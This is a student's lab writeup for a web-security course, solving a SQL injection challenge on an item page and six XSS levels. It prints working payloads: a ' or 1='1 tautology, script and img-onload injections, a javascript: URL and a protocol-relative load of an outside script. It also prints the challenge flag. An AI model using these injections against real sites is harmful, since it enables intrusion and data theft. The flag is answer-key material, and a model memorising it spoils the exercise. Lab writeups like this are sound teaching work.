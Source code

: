Writeup 14 - Web II
=====

Name: Evan McIntire
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Evan McIntire

## Assignment 10 Writeup

### Part 1 (70 Pts)

For this part, I immediately saw the **s**, **q**, and **l** bolded in the prompt, telling me that the assignment would be related to sql injection.

I played around with the site first, to see if there was anything hidden, but that turned up nothing. The only attack vector I found was in the item pages, where they had `/item?id=<NUMBER>`. I figured this is where my attack had to take place.

I messed around with the input I gave; first starting with numbers not listed, before moving on to trying to inject sql.

I hit a few internal server errors, but after referring back to the slides and trying correct syntax, I was able to list all of the items using `' or 1='1`. I think the statement behind the scenes was something like `"SELECT * FROM items WHERE id="' + input + ';"`.

Using this, all the items got listed, and I found the flag `CMSC38R-{y0U-are_the_5ql_n1nja}`.


### Part 2 (30 Pts)

### 1
I figured it would start out easy, and just put in `<script>alert('Hello World')</script>`, which passed the challenge immediately.

### 2
This one was a lot trickier. After some experimenting, it was clear that it would delete `<script>` tags, but leave other html in.

I knew the `<img>` tag had an `onload` method that would run JS when it loads an image. So, I found a placeholder image site, and had the source as an image from there, with an `onload` that would alert.

`<img src="https://placeimg.com/640/480/any" onload="alert('Hello World');" />`

### 3
After playing with it, I could tell that it was loading the image based on the value after the hash, but it wasn't totally clear how it was working. I looked at the source, and saw that it was building an image tag with string concatination.

With this knowledge, I was able to finish the image tag on my own, adding code to be run on load, much like what you do with SQL injection.

`#3.jpg'" onload="alert('Hello world!')"/>`

### 4
I tried this one for a long time, seeing how it reacted to different numbers/values, but I wasn't able to initially make much progress.

After some experimenting, I found that giving the value `'` would make the timer run forever, implying to me that it was hitting some sort of error. I opened by browser console, and found an error: `SyntaxError: '' string literal contains an unescaped line break`.

This told me that the page was doing some sort of string concatination, and I could take a similar approach to the previous example: Have the given code execute correctly, but with my own payload.

I ended with `3'); alert('`, which would start the timer and create an empty alert.

### 5
I initially tried attacking the email address form, but the output of it is never used, so that was a useless attack vector.

The only other attack vector was the url. I figured there was something I could do in the URL, and I found the `?next=confirm`, and figured there was some way I could exploit it.

I struggled for a bit, and couldn't figure anything out. I looked at the hints, which confirmed my suspisions, and the final hint gave me the step I needed (adding `javascript:`).

`signup?next=javascript:alert('Hello World')`

### 6

The only attack vector we have here is the url. Changing it, it is clear that it loads from whatever is given after the hash.

Trying to put a url in there results in an error, so we have to get a bit creative!

I wrote a simple script and put it at https://evanmcintire.com/g.js. All it does it run `alert('Hello World');`

I first tried lopping off the https://, and it would 'load' it, but the console had an error.

I messed around with it some more, and took a look at the source. It was looking for `https?://` at the start, but clearly we need some amount of that string still in there in order for this to work.

Keeping only `http:` gives nothing, but when we include only `//`, we load the script!

`#//evanmcintire.com/g.js`